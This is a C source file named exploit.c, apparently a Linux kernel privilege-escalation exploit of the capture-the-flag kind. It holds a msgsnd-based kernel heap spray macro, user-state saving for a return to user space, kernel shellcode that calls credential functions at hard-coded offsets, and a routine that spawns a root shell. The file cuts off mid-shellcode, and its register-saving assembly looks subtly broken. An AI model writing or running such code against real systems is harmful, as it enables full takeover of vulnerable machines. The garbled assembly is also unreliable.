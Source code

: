 ```exploit.c


// utils
#define WAIT getc(stdin);
#define ulong unsigned long
#define scu static const unsigned long
#define NULL (void*)0
#define errExit(msg) do { perror(msg); exit(EXIT_FAILURE); \
                        } while (0)
#define KMALLOC(qid, msgbuf, N) for(int ix=0; ix!=N; ++ix){\
                        if(msgsnd(qid, &msgbuf, sizeof(msgbuf.mtext) - 0x30, 0) == -1) errExit("KMALLOC");}
ulong user_cs,user_ss,user_sp,user_rflags;
struct pt_regs {
	ulong r15; ulong r14; ulong r13; ulong r12; ulong bp;
	ulong bx;  ulong r11; ulong r10; ulong r9; ulong r8;
	ulong ax; ulong cx; ulong dx; ulong si; ulong di;
	ulong orig_ax; ulong ip; ulong cs; ulong flags;
  ulong sp; ulong ss;
};
void print_regs(struct pt_regs *regs)
{
  printf("r15: %lx r14: %lx r13: %lx r12: %lx\n", regs->r15, regs->r14, regs->r13, regs->r12);
  printf("bp: %lx bx: %lx r11: %lx r10: %lx\n", regs->bp, regs->bx, regs->r11, regs->r10);
  printf("r9: %lx r8: %lx ax: %lx cx: %lx\n", regs->r9, regs->r8, regs->ax, regs->cx);
  printf("dx: %lx si: %lx di: %lx ip: %lx\n", regs->dx, regs->si, regs->di, regs->ip);
  printf("cs: %lx flags: %lx sp: %lx ss: %lx\n", regs->cs, regs->flags, regs->sp, regs->ss);
}
void NIRUGIRI(void)
{
  char *argv[] = {"/bin/sh",NULL};
  char *envp[] = {NULL};
  execve("/bin/sh",argv,envp);
}
// should compile with -masm=intel
static void save_state(void) {
  asm(
      "movq %0, %%cs\n"
      "movq %1, %%ss\n"
      "movq %2, %%rsp\n"
      "pushfq\n"
      "popq %3\n"
      : "=r" (user_cs), "=r" (user_ss), "=r"(user_sp), "=r" (user_rflags) : : "memory" 		);
}

static void shellcode(void){
  asm(
    "xor rdi, rdi\n"
    "mov rbx, QWORD PTR [rsp+0x50]\n"
    "sub rbx, 0x244566\n"
    "mov rcx, rbx\n"
    "call rcx\n"
    "mov rdi, rax\n"
    "sub rbx, 0x470\n"
    "call rbx\n"
    "add rsp, 0x20\n"
    "pop rbx\n"
    "pop r12\n"
    "pop r13\n"
    "pop r14\n"
    "pop r15\n"
    "pop rbp\n"
    "ret\n"
```